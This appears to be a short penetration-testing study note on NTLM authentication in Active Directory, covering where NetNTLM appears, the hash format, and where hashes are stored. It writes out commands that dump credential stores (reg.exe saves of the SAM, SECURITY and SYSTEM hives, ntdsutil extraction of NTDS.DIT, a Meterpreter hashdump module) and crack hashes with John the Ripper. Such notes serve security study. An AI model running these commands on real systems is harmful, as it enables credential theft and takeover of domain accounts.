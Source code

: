 # New Technology LAN Manager (NTLM)
The suite of security protocols used to authenticae user identities in Active Directory. Authentication is provided by a NetNTLM. 

## NetNTLM can be found in:
- Internally-hosted Exchange servers that expose an Outlook Web App (OWA) login portal.
- RDP service of a server.
- VPN endpoints integrated with AD
- Internet facing web applications 

## How does it work?
- In between client and Active Directory
- All authentication material is forwarded to a domain controller
- Challenge goes to domain controller and if successful authenticates the user
- Application authenticates on behalf of user preventing it from storing credentials

Allows the application to act as a middle-man between client and AD.  All authentication material is forwarded to a Domain controller in the form of a challenge. 

##  NTLM Hashes

### NTLM hash location
In the `SAM Database` stored on the machine or in the domain controller NTDS database.
```sh
C:\Windows\NTDS\NTDS.DIT
```

### NTLM hash structure?
The hash will look something similar to:
```sh
guest:501:aad3b435b51404eeaad3b435b51404ee:3e24dcead23468ce597d6883c576f657:::
```
The first 2 sections are related to the user, the last 2 are the `LM` and `NT` hashes.

| LM | NT |
| -- | -- |
| aad3b435b51404eeaad3b435b51404ee | 3e24dcead23468ce597d6883c576f657 |

### Dumping NTLM hash

Manually:
```sh
C:\> reg.exe save hklm\sam c:\temp\sam.save
C:\> reg.exe save hklm\security c:\temp\security.save
C:\> reg.exe save hklm\system c:\temp\system.save
```

Manual on DC:
```sh
ntdsutil
activate instance ntds
ifm
create full c:\ntdsutil
quit
quit
```

Meterpreter:
```sh
meterpreter > run post/windows/gather/smart_hashdump
```

### NTLM Cracking
You can crack NTLM hashes by gaining access to a privileged user accountand dumping the SAM database.

```sh
john --format=NT --wordlist=rockyou.txt crack.txt
```

Meterpreter:
```sh
use auxiliary/analyze/jtr_crack_fast
```
